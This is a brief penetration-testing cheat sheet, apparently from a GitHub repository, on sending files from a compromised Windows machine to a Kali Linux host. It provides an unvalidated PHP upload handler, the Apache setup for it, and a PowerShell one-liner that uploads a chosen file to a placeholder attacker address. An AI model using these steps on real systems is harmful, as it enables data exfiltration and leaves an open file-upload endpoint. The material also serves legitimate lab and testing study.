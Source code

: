 # Windows Uploads

If we want to transfer files, in this case from Windows to linux, we can use some of the following techniques:

#### Hosting an uploads.php file

**Step 1:** Create the following php file on Kali:

```bash
<?php
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile) ?>
```

**Step 2:** Create the 'uploads' directory and set owner permissions to www-data:

```bash
mkdir /var/www/html/uploads && chown www-data: /var/www/html/uploads
```

**Step 3:** Restart Apache2 service:

```bash
sudo systemctl restart apache2
```

**Step 4:** Upload the file executing the following command in a Windows cmd:

```bash
powershell (New-Object System.Net.WebClient).UploadFile('http://$IPADDRESS/uploads/uploads.php', '$FILETOUPLOAD')
```
